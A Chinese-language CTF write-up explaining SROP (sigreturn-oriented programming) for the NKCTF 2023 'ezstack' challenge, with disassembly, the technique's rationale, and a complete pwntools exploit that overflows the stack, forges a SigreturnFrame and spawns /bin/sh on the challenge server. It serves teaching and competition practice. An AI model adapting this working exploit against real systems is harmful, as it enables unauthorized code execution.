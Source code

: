 # NKCTF2023ezstack - SROP初探


```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

鉴定为，没有保护。

核心代码很短：

```
.text:00000000004011B9 vuln            proc near               ; CODE XREF: main&#43;17↓p
.text:00000000004011B9
.text:00000000004011B9 buf             = byte ptr -10h
.text:00000000004011B9
.text:00000000004011B9 ; __unwind {
.text:00000000004011B9                 endbr64
.text:00000000004011BD                 push    rbp
.text:00000000004011BE                 mov     rbp, rsp
.text:00000000004011C1                 mov     rax, 1
.text:00000000004011C8                 mov     rdx, 26h ; &#39;&amp;&#39;  ; count
.text:00000000004011CF                 lea     rsi, nkctf      ; &#34;Welcome to the binary world of NKCTF!\n&#34;
.text:00000000004011D7                 mov     rdi, rax        ; fd
.text:00000000004011DA                 syscall                 ; LINUX - sys_write
.text:00000000004011DC                 xor     rax, rax
.text:00000000004011DF                 mov     rdx, 200h       ; count
.text:00000000004011E6                 lea     rsi, [rsp&#43;buf]  ; buf
.text:00000000004011EB                 mov     rdi, rax        ; fd
.text:00000000004011EE                 syscall                 ; LINUX - sys_read
.text:00000000004011F0                 mov     eax, 0
.text:00000000004011F5                 pop     rbp
.text:00000000004011F6                 retn
.text:00000000004011F6 ; } // starts at 4011B9
.text:00000000004011F6 vuln            endp
```



一开始以为是ret2libc，本想想办法leak地址，发现无法控制rax为1调用输出的syscall。ROPgadget发现了一些奇怪的东西：

```
.text:0000000000401146                 mov     rax, 0Fh
.text:000000000040114D                 retn
.text:000000000040114E                 syscall                 ; LINUX -
.text:0000000000401150                 retn
```

查了一下，0x0F号系统调用是`rt_sigreturn`系统调用，推测可以使用SROP

SROP是一种利用Linux信号机制的漏洞利用方法。当用户发出信号请求时，会发生这样的事情：

保存上下文（在用户态栈上）→执行信号处理函数→从信号处理函数返回→从用户栈上恢复上下文

这里的问题在于这个过程中的最后一步是通过信号处理函数调用`rt_sigreturn`系统调用实现的，也就是说“从用户栈上恢复上下文”这个操作可以被攻击者直接执行。

也就是说，我们只需要在用户态栈上伪造一个上下文，然后调用`rt_sigreturn`让系统恢复上下文即可getshell。具体来说，我们按下面的规则在栈上伪造一个上下文：

```
rax=59
rdi = &amp;/bin/sh
rsi = 0
rdx=0
rip=&amp;syscall; ret
```

在调用`rt_sigreturn`时，系统会按上面的指分别设置各个寄存器，就可以执行execve(&#34;/bin/sh&#34;)了。

现在的问题是如何获得一个/bin/sh字符串。

发现程序中有一个输出`welcome to nkctf`的代码，如果我们在ret的时候ret到`0x4011c8`处，就可以跳过`mov rax, 1`的执行，此时rax为0，触发LINUX - read系统调用，此时我们可以在这个字符串内写入/bin/sh。

到这里思路就很明显了：

1. ret到`0x4011c8`处，写入`/bin/sh`字符串，然后触发第二次读入。
2. ret到vuln()起始地址，验证`/bin/sh`写入是否成功，同时准备写入SigreturnFrame（可跳过）
3. 控制ret地址为`mov rax, 15; ret; syscall; ret`，同时布置栈，写入伪造的SigreturnFrame。

完整exp：

```python
from pwn import *
elf = ELF(&#34;./ez_stack&#34;)

#p = process(&#34;./ez_stack&#34;)
p = remote(&#34;node2.yuzhian.com.cn&#34;, 39984)

context.arch = &#39;amd64&#39;
context.log_level = &#39;debug&#39;

p.recvuntil(b&#34;NKCTF!\n&#34;)
leak_addr = 0x4011c8
vuln_addr = 0x4011b9
nkctf_addr = 0x404040
syscall_addr = 0x40114e
sigret_addr = 0x401146

payload = b&#34;A&#34; * (16&#43;8)
payload &#43;= p64(leak_addr)#write nkctf_string
p.send(payload.ljust(0x200, b&#34;A&#34;))

#write /bin/sh
p.send(b&#34;/bin/sh\x00&#34;&#43;b&#34;a&#34;*(0x26-8))
#try SROP
payload = b&#34;a&#34;*(16&#43;8) &#43; p64(vuln_addr)
p.send(payload)
p.recvuntil(b&#34;/bin/sh\x00&#34;&#43;b&#34;a&#34;*(0x26-8))
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = nkctf_addr #&amp;&#39;/bin/sh&#39;
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr
#print(frame)
frame = b&#39;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@@@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00N\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00&#39;
payload = b&#39;a&#39;* (16&#43;8)
payload &#43;= p64(sigret_addr) #强制sigreturn，改变frame
payload &#43;= p64(syscall_addr)
payload &#43;= frame
#payload &#43;= p64(vuln_addr)
p.send(payload)
p.interactive()
```



---

> Author: Shino  
> URL: https://www.sh1no.icu/posts/srop/  

